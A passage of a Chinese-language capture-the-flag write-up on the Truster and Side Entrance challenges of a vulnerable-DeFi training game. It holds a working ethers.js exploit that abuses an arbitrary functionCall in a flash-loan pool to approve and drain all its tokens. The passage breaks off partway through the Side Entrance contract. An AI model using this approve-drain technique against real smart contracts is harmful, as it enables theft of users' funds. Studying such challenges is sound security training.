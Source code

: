 其中主要观察 flashloasn 函数 其中有两种类型的地址 borrower 和 target，同时还调用了 functionCall[functionCall](https://docs.openzeppelin.com/contracts/3.x/api/utils#Address-functionCall-address-bytes-)

这样 我们就可以我们的 pool 合约与 target 和 data 合约进行交互，我们可以用 pool 的 msg.sender 作为调用者

其实就是`target.functionCall(data)` 可以以 `TrusterLenderPool` 的身份调用任意合约的任意函数

因为使用了 ERC20.那么可以使用`approve`来完成这笔交易[](https://docs.openzeppelin.com/contracts/5.x/api/token/erc20#IERC20)[ERC 20 - OpenZeppelin Docs](https://docs.openzeppelin.com/contracts/5.x/api/token/erc20#IERC20-approve-address-uint256-)

我们要将掏空 100W 个闪电贷，因为闪电贷原理，我们无法在用一个交易中窃取。那么我们可以创建另一组交易

被闪电贷这笔交易允许，然后再另一个交易中获取代币

我们可以让 Pool 合约批准我们使用其所有 DVT 代币。然后用 transferFrom 调用

Exp:

```js
    it('Execution', async function () {  
        /\*\* CODE YOUR SOLUTION HERE \*/  
        let interface = new ethers.utils.Interface(\["function approve(address spender, uint256 amount)"\])  
        let data = interface.encodeFunctionData("approve", \[player.address, TOKENS\_IN\_POOL\]); //！  

        await pool.connect(player).flashLoan(0, player.address, token.address, data);  
        await token.connect(player).transferFrom(pool.address, player.address, TOKENS\_IN\_POOL)  
    });  
//注意 0 只是为了实现一个通证
```

run:

```js
\[Challenge\] Truster  
  ✔ Execution (42ms)  
1 passing (2s)
```

## Challenge #4 - Side Entrance

> A surprisingly simple pool allows anyone to deposit ETH, and withdraw it at any point in time.
> 
> It has 1000 ETH in balance already, and is offering free flash loans using the deposited ETH to promote their system.
> 
> Starting with 1 ETH in balance, pass the challenge by taking all ETH from the pool.

这次挑战的内容：从余额 1 ETH 开始，通过从池中取出所有 ETH 来通过挑战。

对于这把 challenge，我们先看一下合约代码。也是比较简单，只有一个 SideEntraceLenderPool.sol 文件

```js
interface IFlashLoanEtherReceiver {  
    function execute() external payable;  
}  

contract SideEntranceLenderPool {  
    mapping(address => uint256) private balances; // 用户余额映射  

    error RepayFailed();  

    event Deposit(address indexed who, uint256 amount);  
    event Withdraw(address indexed who, uint256 amount);  

    function deposit() external payable {      //允许用户将 ETH 存入池子  
        unchecked {  
            balances\[msg.sender\] += msg.value;  
```